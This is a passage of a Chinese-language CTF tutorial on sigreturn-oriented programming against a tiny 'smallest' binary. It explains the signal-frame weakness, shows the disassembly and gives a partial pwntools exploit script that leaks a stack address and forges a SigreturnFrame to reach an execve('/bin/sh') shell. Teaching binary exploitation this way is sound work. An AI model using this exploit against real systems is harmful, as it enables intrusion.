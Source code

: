 ### 攻击原理

内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在 Signal Frame 中。但是需要注意的是：

- Signal Frame 被保存在用户的地址空间中，所以用户是可以读写的。
- 由于内核与信号处理程序无关 (kernel agnostic about signal handlers)，它并不会去记录这个 signal 对应的 Signal Frame，所以当执行 sigreturn 系统调用时，此时的 Signal Frame 并不一定是之前内核为用户进程保存的 Signal Frame。

#### 例

```s
text:00000000004000B0                 public start
.text:00000000004000B0 start           proc near
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 mov     edx, 400h     ; count
.text:00000000004000B8                 mov     rsi, rsp      ; buf
.text:00000000004000BB                 mov     rdi, rax      ; fd
.text:00000000004000BE                 syscall   ; LINUX - sys_read
.text:00000000004000C0                 retn
.text:00000000004000C0 start           endp
.text:00000000004000C0
.text:00000000004000C0 _text           ends
```

程序很简单，没有sigreturn调用和`pop rax;ret`,但是调用了read函数所以可以通过read来设置rax的值

- 通过控制 read 读取的字符数来设置 RAX 寄存器的值，从而执行 sigreturn
- 通过 syscall 执行 execve("/bin/sh",0,0) 来获取 shell。

```python
  from pwn import *
  from LibcSearcher import *
  small = ELF('./smallest')
  if args['REMOTE']:
      sh = remote('127.0.0.1', 7777)
  else:
      sh = process('./smallest')
  context.arch = 'amd64'
  context.log_level = 'debug'
  syscall_ret = 0x00000000004000BE
  start_addr = 0x00000000004000B0
  ## set start addr three times
  payload = p64(start_addr) * 3
  sh.send(payload)

  ## modify the return addr to start_addr+3
  ## so that skip the xor rax,rax; then the rax=1
  ## get stack addr
  sh.send('\xb3')
  stack_addr = u64(sh.recv()[8:16])
  log.success('leak stack addr :' + hex(stack_addr))

  ## make the rsp point to stack_addr
  ## the frame is read(0,stack_addr,0x400)
  sigframe = SigreturnFrame()
  sigframe.rax = constants.SYS_read
  sigframe.rdi = 0
  sigframe.rsi = stack_addr
  sigframe.rdx = 0x400
  sigframe.rsp = stack_addr
  sigframe.rip = syscall_ret
  payload = p64(start_addr) + 'a' * 8 + str(sigframe)
  sh.send(payload)

  ## set rax=15 and call sigreturn
  sigreturn = p64(syscall_ret) + 'b' * 7
```